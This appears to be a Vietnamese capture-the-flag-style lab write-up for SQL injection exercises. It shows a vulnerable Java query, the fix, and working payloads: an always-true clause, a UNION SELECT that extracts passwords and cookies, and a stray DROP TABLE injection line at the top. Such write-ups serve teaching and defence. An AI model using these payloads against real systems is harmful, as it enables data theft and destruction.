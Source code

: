 ```sql
Action contains: '; DROP TABLE access_log -- 
```

# SQL Injection **(advanced)**

## Lab 3

### Nguyên nhân lỗi

- Sử dụng untrust data nhập từ người dùng `accountName` để chèn chuỗi trực tiếp vào câu truy vấn SQL.

```java
public AttackResult injectableQuery(String accountName) {
    String query = "";
    try (Connection connection = dataSource.getConnection()) {
      boolean usedUnion = true;
      query = "SELECT * FROM user_data WHERE last_name = '" + accountName + "'";
```

### POC

- Đầu tiên sử dụng payload `' or '1'='1` để xem toàn bộ dữ liệu trong bảng `user_data`
- Sử dụng UNION để có thể xem được dữ liệu từ bảng user_system_data

```sql
' UNION SELECT userid as user_system_id, user_name, password, cookie, 'a','b',1 FROM user_system_data -- 
```

- Password của Dave là `passW0rD`

![image.png]((A3)%20Injection%2062a301a7fd4143a4ad699d1a864c382e/image.png)

### Cách khắc phục

- Sử dụng PreparedStatement

## Lab 5

### Nguyên nhân lỗi

- Chèn trực tiếp giá trị vào câu query dẫn đến bị tấn công SQL Injection

![image.png]((A3)%20Injection%2062a301a7fd4143a4ad699d1a864c382e/image%201.png)

### POC

- Từ lỗ hổng SQL Injection này, có thể bruteforce để tìm ra từng ký tự trong mật khẩu của người dùng Tom
